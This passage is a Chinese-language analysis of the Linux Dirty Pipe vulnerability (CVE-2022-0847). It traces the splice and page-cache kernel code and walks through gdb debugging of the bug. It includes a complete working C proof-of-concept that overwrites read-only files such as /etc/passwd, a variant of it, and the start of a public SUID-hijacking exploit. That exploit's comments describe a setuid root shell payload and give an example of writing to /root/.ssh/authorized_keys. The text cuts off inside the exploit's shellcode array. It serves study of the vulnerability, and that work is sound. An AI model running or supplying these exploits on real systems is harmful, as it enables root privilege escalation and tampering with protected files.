                 struct pipe_inode_info *pipe, size_t len,
                 unsigned int flags)
{
    struct iov_iter to; // 管道迭代器
    struct kiocb kiocb; // I/O控制块
    unsigned int i_head; // 保存管道起始头位置
...
    iov_iter_pipe(&to, READ, pipe, len); // 初始化管道迭代器(读方向)
    i_head = to.head; // 记录当前管道头位置
...
    ret = call_read_iter(in, &kiocb, &to); // 调用文件系统的read_iter方法
    if (ret > 0) { // 成功读取数据
        *ppos = kiocb.ki_pos; // 更新文件位置
        file_accessed(in); // 标记文件被访问
...

    return ret; // 返回实际传输字节数或错误码
}
EXPORT_SYMBOL(generic_file_splice_read); // 导出符号供模块使用
```

该函数内部构造了一个 pipe 的迭代器 `iov_iter`，然后通过调用 `call_read_iter` 实际执行数据读取操作。读取成功后会更新文件位置并调用 `file_accessed` 更新访问时间。

```
static inline ssize_t call_read_iter(struct file *file, struct kiocb *kio,
                     struct iov_iter *iter)
{
    return file->f_op->read_iter(kio, iter);
}
```

可以发现调用了call\_read\_iter函数最后也可以通过动态调试定位到函数generic\_file\_read\_iter.

### 2.4 generic\_file\_read\_iter

```
/**
 * generic_file_read_iter - 通用文件系统读取例程
 * @iocb:	内核I/O控制块
 * @iter:	数据读取的目标迭代器
 *
 * 这是所有能直接使用页缓存的文件系统的"read_iter()"例程
 *
 * iocb->ki_flags中的IOCB_NOWAIT标志表示当无法立即读取数据时应返回-EAGAIN
 * 但它不会阻止预读操作
 *
 * iocb->ki_flags中的IOCB_NOIO标志表示不应为读取或预读发起新I/O请求
 * 当没有数据可读时返回-EAGAIN。当会触发预读时，返回可能为空的部分读取结果
 *
 * 返回值:
 * * 复制的字节数(即使是部分读取)
 * * 如果没有读取任何数据则返回负错误码(如果设置了IOCB_NOIO则可能返回0)
*/
ssize_t
generic_file_read_iter(struct kiocb *iocb, struct iov_iter *iter)
{
    size_t count = iov_iter_count(iter); /* 获取要读取的总字节数 */
    ssize_t retval = 0; /* 初始化返回值 */

...
    retval = generic_file_buffered_read(iocb, iter, retval); /* 执行缓冲读取 */
...
}
EXPORT_SYMBOL(generic_file_read_iter); /* 导出符号供内核模块使用 */
```

`generic_file_read_iter` 是所有能够直接利用页缓存的文件系统的通用读取例程。该函数处理直接 I/O 与缓冲读取的场景，确保在非阻塞或阻塞模式下都能正确返回数据或错误码。

### 2.5 generic\_file\_buffered\_read

```
/**
 * generic_file_buffered_read - generic file read routine
 * @iocb:	the iocb to read  // 要读取的I/O控制块
 * @iter:	data destination  // 数据目的地
 * @written:	already copied  // 已经拷贝的字节数
 * 使用mapping->a_ops->readpage()函数进行实际底层操作这看起来有点丑，但goto语句实际上有助于理清错误处理等逻辑
 * 返回值：
 * * 拷贝的总字节数，包括已经@written的部分
 * * 如果没有拷贝任何数据则返回负的错误码
 */
ssize_t generic_file_buffered_read(struct kiocb *iocb,
        struct iov_iter *iter, ssize_t written)
{
    struct file *filp = iocb->ki_filp;  // 获取文件指针
    struct address_space *mapping = filp->f_mapping;  // 获取地址空间映射
...

        page = find_get_page(mapping, index);  // 查找并获取页面
...
        /*
         * 好了，我们有了页面，并且它是最新的，现在可以拷贝到用户空间了...
         */
        ret = copy_page_to_iter(page, offset, nr, iter);  // 拷贝页面到迭代器
...
    return written ? written : error;  // 返回已写入字节数或错误码
}
EXPORT_SYMBOL_GPL(generic_file_buffered_read);  // 导出符号
```

在 `generic_file_buffered_read` 中，内核先通过 `find_get_page` 查找所需的页面，然后将页面中的数据拷贝到用户提供的缓冲区中。实际的拷贝操作是由 `copy_page_to_iter` 完成的。

### 2.6 copy\_page\_to\_iter

```
size_t copy_page_to_iter(struct page *page, size_t offset, size_t bytes,
             struct iov_iter *i)
{
...
    else if (likely(!iov_iter_is_pipe(i)))
        return copy_page_to_iter_iovec(page, offset, bytes, i);
    else
        return copy_page_to_iter_pipe(page, offset, bytes, i);
}
EXPORT_SYMBOL(copy_page_to_iter);
```

`copy_page_to_iter` 根据 iov\_iter 的类型选择合适的拷贝方式。当数据拷贝的目标是管道时，就调用 `copy_page_to_iter_pipe`。

### 2.7 copy\_page\_to\_iter\_pipe

```
static size_t copy_page_to_iter_pipe(struct page *page, size_t offset, size_t bytes,
             struct iov_iter *i)
{
    struct pipe_inode_info *pipe = i->pipe;  // 获取管道信息
    struct pipe_buffer *buf;                 // 管道缓冲区指针
    unsigned int p_tail = pipe->tail;        // 管道尾指针
    unsigned int p_mask = pipe->ring_size - 1; // 管道环形缓冲区掩码
    unsigned int i_head = i->head;           // 迭代器头指针
...

    buf->ops = &page_cache_pipe_buf_ops;  // 设置缓冲区的操作函数
    get_page(page);                       // 增加页的引用计数
    buf->page = page;                     // 设置缓冲区指向的页,这里成功实现了page指向的替换
    buf->offset = offset;                 // 设置缓冲区的偏移量
    buf->len = bytes;                     // 设置缓冲区的长度

    pipe->head = i_head + 1;              // 更新管道头指针
    i->iov_offset = offset + bytes;       // 更新迭代器偏移量
    i->head = i_head;                     // 更新迭代器头指针
out:
    i->count -= bytes;                    // 减少剩余需要处理的字节数
    return bytes;                         // 返回实际处理的字节数
}
```

在 `copy_page_to_iter_pipe` 函数中，关键核心`buf->page = page;`,这段代码就是内核完成了将文件的page\_cache直接替换掉管道page,实现了0拷贝!

更加详细的了解0拷贝机制:[详解CVE-2022-0847 DirtyPipe漏洞 - 华为云开发者联盟 - 博客园](https://www.cnblogs.com/huaweiyun/p/16288527.html)

## 回归正题讲解Dirty Pipe（CVE-2022-0847）原理与作用

### 漏洞背景

Dirty Pipe 是一个存在于 Linux 内核 5.8 及之后版本 中的本地提权漏洞（CVE-2022-0847）。攻击者可通过覆盖任意可读文件的内容（即使文件权限为只读），将普通用户权限提升至 root 。其原理与经典的 Dirty COW（CVE-2016-5195）漏洞类似，但利用更简单、影响范围更广.

### 漏洞核心原理

漏洞源于 **管道（Pipe）机制与 Page Cache 的交互缺陷** ，具体涉及以下关键点：  
**1.管道的“零拷贝”特性**  
当通过 splice 系统调用将文件内容写入管道时，内核会直接将文件的 Page Cache 页面 （内存中的文件缓存页）作为管道的缓冲区页使用，而非复制数据。这一过程通过 copy\_page\_to\_iter\_pipe 函数实现

```
buf->page = page;  // 直接将文件的 Page Cache 页面关联到管道缓冲区
buf->flags = PIPE_BUF_FLAG_CAN_MERGE;  // 标记缓冲区可合并
```

此时，管道缓冲区的 `flags` 被错误地设置为 `PIPE_BUF_FLAG_CAN_MERGE`，允许后续数据合并到该页中。

**2.未初始化的标志位漏洞**  
管道缓冲区的 `flags` 变量在初始化时未正确重置。当攻击者通过 `splice` 将文件内容写入管道后，若再次向同一管道写入数据，内核会错误地认为该页是可写的，从而允许覆盖原文件的 Page Cache 页面.

**3.Page Cache 的覆盖效果**  
由于文件的 Page Cache 页面被直接关联到管道缓冲区，攻击者通过向管道写入数据，可覆盖 Page Cache 中的原始文件内容。当其他进程读取该文件时，会直接读取被篡改的缓存页，导致数据被永久修改（即使文件本身权限为只读）

### 漏洞利用步骤

攻击者可通过以下步骤实现提权：

* 创建一个管道（`pipe()`）
* 并且调用pipe\_write将整个管道数据写满,用于给(`struct pipe_buffer`)buf的标志位赋值为**PIPE\_BUF\_FLAG\_CAN\_MERGE**,确保每个page都可以被续写!
* 再调用pipe\_read将管道清空,确保splice进行0拷贝的时候有足够的拷贝空间.
* 构造完成后调用 `splice` 将一个只读文件（如 `/etc/passwd`）至少一个字节的内容写入管道pipe,将目标文件。此时，文件的 Page Cache 页面被关联到管道缓冲区。
* 由于前面已经将管道中其中一个buf->page直接指向了目标文件的Page Cache 页面,所以调用pipe\_write向管道写入恶意数据，覆盖原 Page Cache 页面,就可以成功实现越权写入数据(修改后/etc/passwd 内容)。

根据漏洞原理及公开分析，Dirty Pipe 的利用存在以下核心限制：

* **文件需可读** ：攻击者必须对目标文件拥有**读权限** 。`splice` 系统调用在将文件内容写入管道时，会检查文件的可读性。若文件不可读，漏洞无法触发
* **单页覆盖限制** ：每次写入最多覆盖**一页大小（通常为 4KB）** ，且无法扩展文件长度。例如，若目标文件为 8KB，攻击者只能修改前 4KB 或后 4KB 中的某一页，无法追加内容
* **修改临时性** ：漏洞仅篡改内存中的 **Page Cache** ，不会同步到磁盘。系统重启、文件重新打开或手动清除缓存后，修改会丢失

当然这些限制如果结合其他内核利用完全可以绕过这些限制!!!  
参考链接:[veritas501/pipe-primitive: An exploit primitive in linux kernel inspired by DirtyPipe](https://github.com/veritas501/pipe-primitive)

# 四、Dirty\_pipe漏洞复现与内核动态调试分析

## Dirty\_pipe漏洞复现-文件越权写

测试POC：

```
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

static void prepare_pipe(int p[2])
{
    if (pipe(p)) {
        abort();
    }

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];

    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }

    for (unsigned r = pipe_size; r > 0;) {//将管道清空
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
}

int main(int argc, char **argv)
{
    if (argc != 4) return EXIT_FAILURE;

    const char *path = argv[1];
    loff_t offset = strtoul(argv[2], NULL, 0);
    const char *data = argv[3];
    size_t data_size = strlen(data);


    int fd = open(path, O_RDONLY);
    if (fd < 0) return EXIT_FAILURE;

    struct stat st;
    if (fstat(fd, &st) || offset > st.st_size || 
       (offset + data_size) > st.st_size) {
        return EXIT_FAILURE;
    }

    int p[2];
    prepare_pipe(p);
    offset--;

    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes <= 0) return EXIT_FAILURE;

    if (write(p[1], data, data_size) != data_size) {
        return EXIT_FAILURE;
    }

    printf("It worked!
");
    return EXIT_SUCCESS;
}
```

构造一下漏洞复现场景，创建一个secret.txt文件只有root权限可以读写，其他用户只可以读  


利用poc向这个只读文件进行内容覆盖！可以发现最后成功覆盖了！  


## 首先动调open打开的文件结构体

POC中尝试将一个只能够的读的文件打开：

```
    int fd = open(path, O_RDONLY);
    if (fd < 0) return EXIT_FAILURE;
```

在linux内核源码中可以找到open函数的具体实现代码：

```
grep -r "SYSCALL_DEFINE3(open,.*"
```

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/open.c:1179
SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode)
{
    return ksys_open(filename, flags, mode);
}
可以追踪到系统调用链：ksys_open->do_sys_open->do_sys_openat2

static long do_sys_openat2(int dfd, const char __user *filename,
               struct open_how *how)
{
...
    if (fd >= 0) { // 如果文件描述符分配成功
        struct file *f = do_filp_open(dfd, tmp, &op); // 调用核心函数打开文件，返回 file 结构体
...
}
```

可以具体观察一下`struct file`,使用gdb在内核源码中下断点：

```
-ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/open.c:1184" 
```

打下断点可以发现f就是以只读模式打开的文件  
  


```
pwndbg> p f
$1 = (struct file *) 0xffff888006193400
```

这就是该漏洞需要篡改的只读文件，当用户通过`open()`系统调用打开文件时，内核会创建`struct file`对象，并建立文件的页缓存（page\_cache）映射。而这个文件的具体内容就会存放在这个文件结构体下管理的一个page中，同样的当用户通过pipe创建管道时，同样会创建一个page来存储输入管道的内容！  
dirty\_pipe漏洞最关键的地方就是将一个只读文件的page通过漏洞替换掉普通用户创建的管道的page，从而实现越权对只读文件进行写入！

## 再观察pipe创建的管道结构体

POC中创建一个管道，返回的管道存放在p中有一个读管道和写管道：

```
    if (pipe(p)) {
        abort();
    }
```

在linux内核源码中可以找到open函数的具体实现代码：

```
grep -r "SYSCALL_DEFINE1(pipe,.*"
```

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c
SYSCALL_DEFINE1(pipe, int __user *, fildes)
{
    return do_pipe2(fildes, 0);
}
可以追踪到系统调用链：do_pipe2->__do_pipe_flags->create_pipe_files->get_pipe_inode

static struct inode * get_pipe_inode(void)
{
    struct inode *inode = new_inode_pseudo(pipe_mnt->mnt_sb);
    struct pipe_inode_info *pipe;
...
    pipe = alloc_pipe_info();//申请一个结构体
    if (!pipe)
        goto fail_iput;

    inode->i_pipe = pipe;
    pipe->files = 2;
    pipe->readers = pipe->writers = 1;
    inode->i_fop = &pipefifo_fops;
...
}
```

其中关键函数`get_pipe_inode()`完成以下操作：

1. 创建伪文件系统（pipefs）中的inode
2. 通过`alloc_pipe_info()`分配管道核心结构体
3. 初始化管道读写计数器（readers/writers均为1）

可以具体观察一下`struct pipe_inode_info`,使用gdb在内核源码中下断点：

```
-ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c:882" \
```

在动态调试情况下查看管道结构体：  


```
pwndbg> p pipe
$1 = (struct pipe_inode_info *) 0xffff8880060ae900
```

`struct pipe_inode_info`和`struct pipe_buffer`是管道功能的核心管理者，其字段直接控制数据流动、内存分配和进程同步。在dirty\_pipe漏洞中，攻击者通过操纵该结构体的缓冲区和页指针，绕过了内核对只读文件的保护机制。理解这一结构体的设计与实现，不仅有助于掌握管道的工作原理，也为分析类似漏洞提供了关键切入点。

## 再观察pipe\_write和pipe\_read构造dirty\_pipe所需的特殊管道

POC中调用write和read对管道pipe进行写入和读取操作：

```
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }

    for (unsigned r = pipe_size; r > 0;) {//将管道清空
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
```

虽然这里调用的是write和read，结合前文提到的，操作pipe管道看上去使用的是write和read，但是他们会自动调用pipe\_write和pipe\_read来操作管道中的内容！

使用gdb在关键函数打下断点：

```
b pipe_write
b pipe_read
```

  
动态调试可以定位到，当向pipe写入数据时候，pipe\_write会将pipe\_buffer结构体的flags字段进行初始化赋值为：

```
buf->flags = PIPE_BUF_FLAG_CAN_MERGE;  // 设置可合并标志
```

这个标记是dirty\_pipe漏洞利用的核心！拥有这个标记后pipe\_write向管道输入内容的时候，就会直接在原有的page上进行写入，也就是直接在只读文件中进行越权写入！

  
这里为pipe\_read下个断点可以发现，该函数是通过pipe\_inode\_info结构体的tail字段来锁定要读取的buf内容的！

```
struct pipe_buffer *buf = &pipe->bufs[tail & mask];  // 获取当前缓冲区
```

这里之所以需要调用这个pipe\_read函数是为了清空pipe\_write向管道写入的内容，确保splice函数可以在管道中寻找到剩余的空间进行零拷贝！

## 接着动调splice触发将一个用户级管道的page直接指向只读文件的page

POC中调用splice将字读文件fd的一个字节拷贝进入管道`p[1]`中，从而成功构造出一个可以越权写的page

```
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes <= 0) return EXIT_FAILURE;
```

使用gdb在关键函数打下断点：

```
b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/lib/iov_iter.c:404
b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/lib/iov_iter.c:372
```

  


```
pwndbg> p filp
$2 = (struct file *) 0xffff888006193400
```

可以观察到generic\_file\_buffered\_read获取到只读文件的`struct file`结构体！

继续动态调试可以发现:  
系统可以通过这个函数来寻找到实际存储文件内容的page：

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/include/linux/pagemap.h
page = find_get_page(mapping, index);  // 查找并获取页面
```

这个page就是在dirty\_pipe漏洞触发时获取只读文件page的源码，可以通过动态调试手动定位一下：

```
-ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/mm/filemap.c:2029" \ #generic_file_buffered_read获取只读文件的page \
p *(struct page *) page
```

  
Page Cache的管理依赖于内核中的`address_space`结构体，该结构体通过`i_pages`字段以稀疏数组（xarray）的形式存储文件的页缓存。每个文件的`address_space`对象（通常通过`inode->i_mapping`关联）维护了文件所有缓存页的索引，键为文件的页偏移量（`pgoff_t`），值为对应的物理页（`struct page`）。例如，当进程通过`read()`系统调用读取文件偏移量`offset`处的数据时，内核会计算对应的页偏移`pgoff = offset >> PAGE_SHIFT`，并在`i_pages`中查找对应的页。若找到则直接使用，否则触发缺页中断，分配新页并调用文件系统提供的`readpage()`方法填充数据。

参考资料：  
Linux系统的脏页机制：[Linux 深入理解脏页(dirty page)-CSDN博客](https://blog.csdn.net/shift_wwx/article/details/122497891)  
open系统调用讲解：[Linux文件系统 struct file 结构体解析-CSDN博客](https://blog.csdn.net/weixin_45030965/article/details/133805594)

继续调试来到dirty\_pipe漏洞的触发点，将只读文件的page直接赋值给buf->page字段，却未将buf->flags字段进行重新初始化为0，而是直接使用了旧的buf->flags值PIPE\_BUF\_FLAG\_CAN\_MERGE，导致用户再次调用pipe\_write的时候会继续再只读文件的page进行内容修改，从而实现了越权修改内容！  
  
可以很快发现整个splice的调用链！

```
--文件系统层
#0  copy_page_to_iter_pipe
#1  copy_page_to_iter
#2  generic_file_buffered_read
--核心功能层
#3  call_read_iter
#4  generic_file_splice_read
#5  do_splice
--系统调用入口层
#6  __do_sys_splice 实际系统调用实现
#7  __se_sys_splice 处理系统调用参数的安全包装
#8  __x64_sys_splice 这是x86_64架构特定的系统调用入口
#9  do_syscall_64
#10 entry_SYSCALL_64
```

## 最后调用pipe\_write实现向只读文件中实现任意写

POC中调用write实际是pipe\_write将要覆盖的字符串写入已经被dirty\_pipe漏洞替换了page的管道之中，从而实现了越权写入！

```
    if (write(p[1], data, data_size) != data_size) {
        return EXIT_FAILURE;
    }
```

使用gdb在关键函数打下断点：

```
b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/lib/iov_iter.c:404
b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/lib/iov_iter.c:372
```



```
#define PIPE_BUF_FLAG_CAN_MERGE	0x10	/* can merge buffers */
```

可以发现buf确实是拥有PIPE\_BUF\_FLAG\_CAN\_MERGE字段的值，的成功向一个只读文件进行了修改操作！  
可以看看具体效果！  
  
一开始./secret.txt的内容是：This is a secret file!

发现如果读写都15次的话,pipe->head和pipe->tail都是15,但是由于pipe->max\_usage为16,pipe的buf数量没有被用完!所以调用splice这里进行操作的时候会重新创建一个pipe\_buffer buf->page用来存放0拷贝过去的只读文件,buf->flags没有被赋予PIPE\_BUF\_FLAG\_CAN\_MERGE标志,所以继续向管道写入的话无法在只读文件的page上面继续写!

# 五、解决和解释Dirty\_Pipe在复现过程中的疑问

## 漏洞利用过程中为什么一定要将管道填满再清空?

```
static void prepare_pipe(int p[2])
{
    if (pipe(p)) {
        abort();
    }

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];

    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }

    for (unsigned r = pipe_size; r > 0;) {//将管道清空
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
}
```

提出疑问后直接修改POC进行测试:

1. 调用16次pipe\_write将这个给pipe填满,再调用一次pipe\_read将个一个pipe的buf清空，可以成功利用！
2. 调用16次pipe\_write将这个给pipe填满,不使用pipe\_read将数据清空,会导致整个程序卡死在splice函数中!
3. 调用1次pipe\_write将pipe其中一个buf填满,再调用一次pipe\_read将这个buf清空，无法成功利用！
4. 调用15次pipe\_write将pipe其中15个buf填满,再调用15次pipe\_read将这些buf清空，无法成功利用！

### 先解决为什么填满pipe后调用splice程序会陷入一直等待

```
 ► 1171                 pipe_lock(opipe);// 获取管道互斥锁，防止并发操作
   1172                 ret = wait_for_space(opipe, flags);// 等待管道有可用空间（如果是阻塞模式可能休眠）
```

发现关键点在：pipe\_lock(opipe);这个函数会检测管道是否空闲，否则会一直等待！

```
pipe_lock(opipe);
```



找到源码：pipe.c

```
void pipe_lock(struct pipe_inode_info *pipe) {
    pipe_lock_nested(pipe, I_MUTEX_PARENT); // 获取互斥锁
}
...
static int wait_for_space(struct pipe_inode_info *pipe, unsigned flags) // 等待管道有可用空间
{
    for (;;) { // 无限循环，直到条件满足
        if (unlikely(!pipe->readers)) { // 如果管道没有读者
            send_sig(SIGPIPE, current, 0); // 发送 SIGPIPE 信号给当前进程
            return -EPIPE; // 返回 EPIPE 错误，表示管道破裂
        }
        if (!pipe_full(pipe->head, pipe->tail, pipe->max_usage)) // 如果管道未满
            return 0; // 直接返回 0，表示可以继续写入
        if (flags & SPLICE_F_NONBLOCK) // 如果操作是非阻塞模式
            return -EAGAIN; // 返回 EAGAIN 错误，表示资源暂时不可用
        if (signal_pending(current)) // 如果当前进程有未决信号
            return -ERESTARTSYS; // 返回 ERESTARTSYS，表示系统调用需要重新启动
        pipe_wait(pipe); // 让当前进程等待，直到管道有空间
    }
}
```

  
由于没有空闲的管道空间可以用所以会导致程序一直卡死！  
卡死原因 ：管道已满且未设置非阻塞标志，wait\_for\_space会调用pipe\_wait等待，导致进程阻塞。

如何判断pipe是否有可用空间？

```
/**
 * pipe_occupancy - 返回管道中已使用的槽数
 * @head: 管道环形缓冲区的头部指针
 * @tail: 管道环形缓冲区的尾部指针
 */
static inline unsigned int pipe_occupancy(unsigned int head, unsigned int tail)
{
    return head - tail; // 计算管道中已使用的槽数（即 head 和 tail 之间的差值）
}  

/**
 * pipe_full - 判断管道是否已满
 * @head: 管道环形缓冲区的头部指针
 * @tail: 管道环形缓冲区的尾部指针
 * @limit: 管道的最大可用槽数
 */
static inline bool pipe_full(unsigned int head, unsigned int tail,
                 unsigned int limit)
{
    return pipe_occupancy(head, tail) >= limit; // 如果已使用的槽数大于等于最大限制，则返回 true（管道已满）
}

```

通过pipe\_inode\_info的head，tail和max\_usage字段来判断是否存在可用空间  
所以我们需要解决的问题就是如何让程序认为管道有空闲的空间！通过动态调试确认,只需要调用至少一次pipe\_read即可让程序判断管道有可用空间!

```
下断点:
    -ex "b do_splice" \
    b wait_for_space
```



### 为什么一定要向pipe写满16次?

可以看看源码:

```
static size_t copy_page_to_iter_pipe(struct page *page, size_t offset, size_t bytes,
             struct iov_iter *i)
{
    struct pipe_inode_info *pipe = i->pipe;  // 获取管道信息
    struct pipe_buffer *buf;                 // 管道缓冲区指针
    unsigned int p_tail = pipe->tail;        // 管道尾指针
    unsigned int p_mask = pipe->ring_size - 1; // 管道环形缓冲区掩码
    unsigned int i_head = i->head;           // 迭代器头指针
...

    off = i->iov_offset;                   // 获取当前iovec的偏移量
    buf = &pipe->bufs[i_head & p_mask];    // 获取当前头指针位置的缓冲区
    ...
    pipe->head = i_head + 1;              // 更新管道头指针
...
}
```

得出copy\_page\_to\_iter\_pipe的缓冲区索引计算方法:

```
struct pipe_buffer *buf = &pipe->bufs[i_head & p_mask];
// p_mask = pipe->ring_size - 1（默认15，对应16页）
// 当i_head=16时，i_head & 15 = 0 → buf指向pipe->bufs[0]
```

所以如果只写满15次的话,那么调用splice的时候i->head是15的话那么获取到的buf就是`&pipe->bufs[0]`,而且splice结束后i->head的值也就变成了16!

再调用pipe\_write向管道写入数据的话:

```
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
...
    head = pipe->head;                 // 获取当前头指针
    was_empty = pipe_empty(head, pipe->tail);  // 检查管道是否为空
    chars = total_len & (PAGE_SIZE-1); // 计算不足一页的字节数
    if (chars && !was_empty) {         // 如果有部分页数据且管道不为空
        unsigned int mask = pipe->ring_size - 1;  // 计算环形缓冲区掩码
        struct pipe_buffer *buf = &pipe->bufs[(head - 1) & mask];  // 获取最后一个缓冲区
        int offset = buf->offset + buf->len;  // 计算缓冲区末尾偏移
...
    return ret;               // 返回实际写入的字节数
}
```

pipe\_write的写入逻辑:

```
head = pipe->head;
if (chars && !was_empty) { // 若管道非空且写入部分页
    buf = &pipe->bufs[(head - 1) & mask]; // 获取前一个缓冲区
    // 可能覆盖前一个页的数据，但需与copy_page_to_iter_pipe的buf对齐
}
```

那么接着前面的head是16,buf获取到的序号就是`&pipe->bufs[15]`,和存放文件page的buf指向不同,所以无法覆盖!

但是如果我们将管道填满16次的话:  
  
漏洞利用成功的时候发现,在copy\_page\_to\_iter\_pipe的时候发现这个head值变为了17!  
通过计算可以发现copy\_page\_to\_iter\_pipe时候的buf和pipe\_write的buf是同一个:`pipe->buf[0]`,所以可以对文件进行覆写!

## 使用splice进行零拷贝之后是否可以通过管道将文件内容输出出来

```
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

static void prepare_pipe(int p[2])
{
    if (pipe(p)) {
        abort();
    }

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];

    for (unsigned r = (pipe_size); r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }

    for (unsigned r = (pipe_size); r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
}

int main(int argc, char **argv)
{
    if (argc != 4) return EXIT_FAILURE;
    puts("Dirty Pipe exploit");
    const char *path = argv[1];
    loff_t offset = strtoul(argv[2], NULL, 0);
    const char *data = argv[3];
    size_t data_size = strlen(data);


    int fd = open(path, O_RDONLY);
    if (fd < 0) return EXIT_FAILURE;

    struct stat st;
    if (fstat(fd, &st) || offset > st.st_size || 
       (offset + data_size) > st.st_size) {
        return EXIT_FAILURE;
    }

    int p[2];
    prepare_pipe(p);
    offset--;

    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes <= 0) return EXIT_FAILURE;

    if (write(p[1], data, data_size) != data_size) {
        return EXIT_FAILURE;
    }

    // 将管道中的数据全部读取并输出到标准输出
    char output_buffer[PAGE_SIZE];
    ssize_t bytes_read;
    printf("Data in the pipe:!!
");
    while (bytes_read = read(p[0], output_buffer, sizeof(output_buffer))) 
    {
        if (bytes_read < 0) {
            perror("read");
            break;
        }
        write(STDOUT_FILENO, output_buffer, bytes_read); // 输出到标准输出
    }
    printf("It worked!!!
");
    return EXIT_SUCCESS;
}
```

  
可以弄清楚pipe\_read的读取方式是通过buf->offest和buf->len来读取buf->page的数据的,即使page里面有完整的内容,由于其余两个字段的限制,所以只能输出一个字节!

## 为什么该POC不能覆盖文本文件的第一个字节

```
splice(fd, &offset, p[1], NULL, 1, 0);
```

在poc中调用splice的时候至少复制一个字节，由于管道的写入机制每次只能向管道后面追加数据，所以被写入管道的第一个字节是无法覆盖的！

# 六、通过Dirty\_pipe劫持劫持SUID二进制文件进行提权

参考链接：[DirtyPipe(脏管道)提权\_脏管道提权-CSDN博客](https://blog.csdn.net/weixin_45794666/article/details/123359070)

```
// 漏洞名称: Linux Kernel 5.8 < 5.16.11 - 本地提权漏洞(DirtyPipe)
// 漏洞作者: blasty (peter@haxx.in)
// 原始作者: Max Kellermann (max.kellermann@ionos.com)
// CVE编号: CVE-2022-0847

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * 版权所有 2022 CM4all GmbH / IONOS SE
 * 作者: Max Kellermann <max.kellermann@ionos.com>
 *
 * Dirty Pipe漏洞的概念验证利用代码
 * 该漏洞由未初始化的"pipe_buffer.flags"变量引起
 * 本程序展示了如何覆盖页面缓存中的任何文件内容
 * 即使文件不可写、不可变或位于只读挂载点
 *
 * 此漏洞利用需要Linux 5.8或更高版本
 * 漏洞利用路径由commit f6dd975583bd ("pipe: merge anon_pipe_buf*_ops")引入
 * 该提交没有引入漏洞，只是使其更容易被利用
 *
 * 此漏洞利用有两个主要限制:
 * 1. 偏移量不能在页面边界上(需要在偏移量前写入一个字节以添加对该页面的引用)
 * 2. 写入不能跨越页面边界
 *
 * 示例: ./write_anything /root/.ssh/authorized_keys 1 $'
ssh-ed25519 AAA......
'
 *
 * 更多解释: https://dirtypipe.cm4all.com/
 */

 #define _GNU_SOURCE
 #include <unistd.h>
 #include <fcntl.h>
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <sys/stat.h>
 #include <sys/user.h>
 #include <stdint.h>
 
 #ifndef PAGE_SIZE
 #define PAGE_SIZE 4096  // 定义页面大小为4KB
 #endif
 
 // 这是一个小型Linux x86_64 ELF文件(套娃结构)
 // 功能:
 //   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
 //   write(fd, elfcode, elfcode_len)
 //   chmod("/tmp/sh", 04755)
 //   close(fd);
 //   exit(0);
 //
 // 生成的ELF文件功能:
 //   setuid(0);
 //   setgid(0);
 //   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
 unsigned char elfcode[] = {
     /*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
     0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
